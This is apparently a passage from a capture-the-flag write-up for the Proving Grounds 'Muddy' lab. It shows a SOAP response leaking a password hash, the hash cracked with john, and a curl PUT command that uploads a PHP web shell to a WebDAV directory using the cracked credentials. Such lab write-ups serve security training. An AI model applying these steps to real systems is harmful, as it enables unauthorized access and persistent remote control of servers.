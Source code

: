 **Response**

```http
HTTP/1.0 200 OK
Date: Mon, 09 Oct 2023 02:21:57 GMT
Server: WSGIServer/0.1 Python/2.7.16
Content-Type: text/xml; charset=UTF-8
Content-Length: 484


<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns="urn:muddy" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <SOAP-ENV:Body SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
    <ns:checkoutResponse>
      <result>Serial number: administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0</result>
    </ns:checkoutResponse>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

Crack the hash `administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0` using john.

Cracked credentials `administrant:sleepless`. Use the credentials to login to `webdav` endpoint.

![img](/assets/images/CTF/Proving_Grounds/Muddy/webdav.png)

Create a web shell or a php shell and upload it to the webdav directory using curl.

```sh
naveenj@hackerspace:|22:32|~/proving_grounds/Muddy$ curl -XPUT -d @shell.php http://muddy.ugc/webdav/shell.php -u 'administrant:sleepless'
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/shell.php has been created.</p>
<hr />
<address>Apache/2.4.38 (Debian) Server at muddy.ugc Port 80</address>
</body></html>
```
